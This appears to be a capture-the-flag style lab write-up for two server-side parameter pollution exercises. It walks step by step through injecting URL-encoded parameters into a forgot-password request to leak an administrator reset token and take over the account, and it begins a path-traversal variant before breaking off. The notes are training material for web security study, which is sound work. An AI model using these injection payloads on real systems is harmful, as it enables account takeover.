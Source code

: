 ```http
```
# Exploiting server-side parameter pollution in a query string
- Log in as `administrator` and delete `carlos`
1. Login > Forgot password
2. Enter administrator and submit > Send request to repeater
	1. Notice that the HTTP response in burp returns JSON data, this looks like an API
3. Submit username that does not exist `username=does_not_exist` and get error message like so
```json
{"type":"ClientError","code":400,"error":"Invalid username."}
```
4. Submit URL encoded `#` (`username=administrator%23foo`) and receive a different error message showing our query is truncated
```JSON
{"error": "Field not specified."}
```
5. Injecting invalid parameter gives us a different error message (`username=administrator%26foo=xyz`)
```JSON
{"error": "Parameter is not supported."}
```
- We know that we can inject parameters into the forgot password POST body
6. Fuzz parameters using Burp parameter names from SecLists `username=administrator%26foo=xyz`
	- Fuzz the `foo` part
7. Get a different response for `field`
8. Submit a request using `field` as a valid parameter (`username=administrator%26field=xyz`) but nothing useful and we get errors like so
```json
{"type":"ClientError","code":400,"error":"Invalid field."}
```
9. Checking sitemap on Burp we see a JavaScript file `forgotPassword.js` which shows the following
```javascript
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
```
- We see a URL parameter called `reset-token`
- This `reset-token` can be used at `/forgot-password?reset_token=...`
10. Inject a valid parameter `field` and use `reset_token` as the value (`username=administrator%26field=reset_token`) to get the following response
```json
{"type":"reset_token","result":"nzxrhg8q15vwntlry1stoiux16al9qoj"}
```
11. Navigate to password reset URL
```
https://0a2e00840423b8e681b32fdd002f0048.web-security-academy.net/forgot-password?reset_token=nzxrhg8q15vwntlry1stoiux16al9qoj
```
12. Reset password
13. Login as administrator
14. Delete carlos
# Exploiting server-side parameter pollution in a REST URL
- Log in as `administrator` and delete `carlos`
1. Forgot password function
2. Inject directory traversal into the username field
```
username=administrator%2f..%2fadministrator
```
- We get username result indicating we can successfully inject path traversal